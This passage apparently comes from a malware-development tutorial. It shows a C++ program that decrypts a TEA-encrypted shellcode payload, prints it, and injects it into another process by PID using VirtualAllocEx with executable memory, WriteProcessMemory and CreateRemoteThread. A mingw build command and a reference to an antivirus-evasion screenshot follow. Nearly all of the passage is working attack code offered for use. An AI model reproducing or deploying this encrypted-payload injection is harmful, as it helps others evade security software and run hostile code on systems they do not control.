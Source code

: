 ```cpp
"\x8b\x5d\x1a\x60\x11\x12\xf7\xde\xea\x9a\x15\xc1\x25\x90\x66\xe6"
"\xc3\x6e\xbc\xd7\x30\x85\x28\xe1\xa6\x08\xac\x1d\x3d\x13\x3f\x7a";

unsigned int my_payload_len = sizeof(my_payload) - 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // tea_decrypt(my_payload, key);
  for (int i = 0; i < my_payload_len; i += 8) {
    tea_decrypt(&my_payload[i], key);
  }

  printf("decrypted:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("\\x%02x", my_payload[i]);
  }
  printf("\n\n");

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)atoi(argv[1]));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

I just add printing decrypted payload for demo.        

### demo 2

Compile:     

```bash
x86_64-w64-mingw32-gcc -O2 hack3.c -o hack3.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![av-evasion](/assets/images/89/2023-02-22_00-45.png){:class="img-responsive"}      
